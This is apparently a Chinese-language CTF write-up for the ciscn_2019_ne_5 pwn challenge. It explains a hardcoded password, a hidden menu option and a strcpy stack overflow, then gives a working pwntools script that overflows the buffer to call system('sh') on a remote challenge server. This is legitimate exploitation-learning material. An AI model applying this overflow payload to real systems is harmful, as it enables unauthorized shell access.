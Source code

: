首先检查安全机制

![image-20201105215357163](https://static.hack1s.fun/images/2021/02/06/image-20201105215357163.png)

开启了NX的32位程序

运行后是一个输入password的地方

![image-20201105215428495](https://static.hack1s.fun/images/2021/02/06/image-20201105215428495.png)

反编译逆向看到

![image-20201106113658304](https://static.hack1s.fun/images/2021/02/06/image-20201106113658304.png)

输入administrator就可以过去，后面的程序是一个循环

输出显示的只有4个选项，但是实际上看到switch中还有一个隐藏的选项

AddLog这个选项通过scanf输入一个log，长度限制是128

![image-20201106113741030](https://static.hack1s.fun/images/2021/02/06/image-20201106113741030.png)

在GetFlag这个函数中有一个strcpy，但是这里的目标串dst距离ebp只有0x48

因此有可能溢出

![image-20201106113901780](https://static.hack1s.fun/images/2021/02/06/image-20201106113901780.png)

在选项`Print`那里是用到了`system`

在程序中没有找到`/bin/sh`

但是存在`sh`

那么思路就是首先用第一个选项输入payload

之后用选项4造成溢出并且调用`system("sh")`

```python
from pwn import *

io = remote('node3.buuoj.cn',28345)
#io = process('./ciscn_2019_ne_5')
elf = ELF('./ciscn_2019_ne_5')

io.recvuntil('password:')
io.sendline('administrator')
io.recvuntil('\n:')
io.sendline(str(1))

sh_addr = 0x080482ea
payload = 'a'*0x48 + 'b'*0x4 + p32(elf.sym['system']) +p32(elf.sym['main'])+ p32(sh_addr)

io.sendline(payload)
io.sendline(str(4))

io.interactive()
```


